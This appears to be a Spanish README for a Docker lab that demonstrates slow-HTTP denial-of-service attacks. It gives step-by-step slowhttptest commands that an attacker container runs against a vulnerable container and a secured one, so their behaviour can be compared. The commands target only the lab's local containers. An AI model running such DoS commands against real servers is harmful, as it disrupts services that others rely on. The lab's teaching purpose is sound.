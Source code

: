# Laboratorio de ataque DOS

Este laboratorio proporciona un entorno configurado para llevar a cabo pruebas de ataques de Denegación de Servicio (DOS) o Distributed Denial of Service (DDOS) utilizando Docker.

## Instrucciones

### Preparación del entorno

1. clonar el repositorio.

   ```bash
   git clone git@github.com:Branyoe/DOS-attack-lab.git
   ```
2. Crea una copia del archivo *".example.env.prod"* llamada *".env.prod"* y completalo con datos validos.
3. Levantar la aplicación.

   ```bash
   docker compose --env-file .env.prod up
   ```

### Preparación de host para atacar.

1. Accede a la consola del contendor vulnerable a atacar.

   ```bash
   docker exec -it attacked-vuln sh
   ```
2. Ejecuta el monitor de pm2.

   ```bash
   pm2 monit
   ```
3. Accede a la consola del contendor seguro.

   ```bash
   docker exec -it attacked-secure sh
   ```
4. Ejecuta el monitor de pm2.

   ```bash
   pm2 monit
   ```
5. Accede a la consola de contenedor atacante.

   ```bash
   docker exec -it attacker-1 /bin/bash
   ```
6. Ejecuta el ataque al contenedor vulnerable.

   ```bash
   slowhttptest -c 100 -H -g -o slowhttp -i 3 -r 100 -t GET -u http://attacked-vuln:3000 -x 50 -p 3
   ```
7. Ejecuta el ataque al contendor seguro.

   ```bash
   slowhttptest -c 100 -H -g -o slowhttp -i 3 -r 100 -t GET -u http://attacked-secure:3001 -x 50 -p 3
   ```
8. Mira ambos monitores y compara el resultado.
